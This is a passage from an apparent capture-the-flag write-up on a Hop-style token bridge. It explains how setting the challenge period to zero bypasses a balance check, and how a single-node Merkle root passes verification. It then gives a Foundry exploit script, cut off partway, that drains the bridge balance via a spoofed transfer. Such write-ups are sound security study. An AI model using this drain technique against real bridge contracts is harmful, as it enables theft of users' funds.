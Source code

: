 ```javascript
function _additionalDebit(address bonder) internal view override returns (uint256) {
    uint256 currentTimeSlot = getTimeSlot(block.timestamp);
    uint256 bonded = 0;

    uint256 numTimeSlots = challengePeriod / TIME_SLOT_SIZE;
    for (uint256 i = 0; i < numTimeSlots; i++) {
        bonded = bonded.add(timeSlotToAmountBonded[currentTimeSlot - i][bonder]);
    }

    return bonded;
}
```

We need this function to return 0, which is possible if `numTimeSlots` is 0; this prevent the for-loop from running. Since we have governance privs to set the `challengePeriod` to 0 with `setChallengePeriod()`, we can get `numTimeSlots` to be 0 and bypass the `requirePositiveBalance` modifier and set a transfer root. 

The rest of the exploit is just filling up the params. We want to set up a transfer root, where the merkle tree is just a single node (and therefore just the root). This passes all of the checks in the `verify()` function because we have `1>0` total leaves, index `0<1` and `_siblings.length == _ceilLog2(_totalLeaves)` since we have no siblings:

```javascript
require(
    _totalLeaves > 0,
    "Lib_MerkleTree: Total leaves must be greater than zero."
);

require(
    _index < _totalLeaves,
    "Lib_MerkleTree: Index out of bounds."
);

require(
    _siblings.length == _ceilLog2(_totalLeaves),
    "Lib_MerkleTree: Total siblings does not correctly correspond to total leaves."
);

bytes32 computedRoot = _leaf;
```

The final exploit is below:

```javascript
function run() public {
    uint256 deployerPrivateKey = vm.envUint("KEY");
    vm.startBroadcast(deployerPrivateKey);
    player = IBridge(bridge).governance();
    bonder = new HopBonder{value: 1 ether}();                
    bridge.addBonder(address(bonder));
    bridge.setCrossDomainMessengerWrapper(10, address(bonder));
    bridge.setChallengePeriod(0); 
    IChal chal = IChal(0xeAa2d400654bE3a41fC09C2a585aada5A2399055);                      
        uint256 bridgeId = bridge.getChainId();
        uint256 bridgeBal = address(bridge).balance;                    
        bytes32 spoofTx = keccak256(abi.encode(
        1,
        alice,
        bridgeBal,
        bytes32(0),//transferNonce,
        0,//bonderFee,
        0,//amountOutMin,
        0//deadline
    ));                   
    bonder.kick(spoofTx, bridgeId, bridgeBal, address(bridge), alice);         
```